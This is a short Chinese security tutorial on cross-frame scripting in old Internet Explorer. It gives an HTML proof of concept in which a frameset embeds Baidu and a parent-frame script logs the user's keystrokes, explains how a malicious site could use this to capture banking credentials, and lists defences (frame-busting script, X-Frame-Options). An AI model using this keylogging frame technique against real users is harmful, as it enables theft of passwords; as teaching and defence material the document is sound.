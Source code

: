 ### 原理

```html
<html>
<head>
<title>IE Cross Frame Scripting Restriction Bypass Example</title>
<script>
var keylog='';
document.onkeypress = function () {
   k = window.event.keyCode;
   window.status = keylog += String.fromCharCode(k) + '[' + k +']';
}
</script>
</head>
<frameset onload="this.focus();" onblur="this.focus();" cols="100%">
<frame src="http://www.baidu.com/" scrolling="auto">
</frameset>
</html>
```

当你在百度的搜索框输入字符时，你会发现左下角的状态栏上出现了你输入的字符。

利用浏览器允许框架(frame)跨站包含其它页面的漏洞，在主框架的代码中加入scirpt，监视、盗取用户输入。

### 危害

一个恶意的站点可以通过用框架包含真的网银或在线支付网站，获取用户账号和密码。

### 防御

* user：升级到IE7以上浏览器
* 开发者：
  * 在页面中加入以下javascirpt代码可以避免网站被XFS`if (top != self)  {top.location=self.location;}`，该代码在检测到当前页面被跨域嵌入iframe时，会重定向到本页面
  * 设置http响应头X-Frame-Options:SAMEORIGIN